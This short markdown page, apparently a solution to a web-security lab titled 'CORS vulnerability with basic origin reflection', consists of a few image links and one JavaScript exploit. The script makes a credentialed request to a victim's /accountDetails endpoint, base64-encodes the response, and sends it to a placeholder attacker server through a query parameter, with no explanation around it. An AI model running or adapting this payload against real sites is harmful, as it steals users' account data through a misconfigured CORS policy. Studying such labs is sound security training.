




# CORS vulnerability with basic origin reflection











```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET','https://<IP>/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://<EXPLOIT-SV>/?data='+encodeURIComponent(btoa(this.responseText));
    };
</script>
```


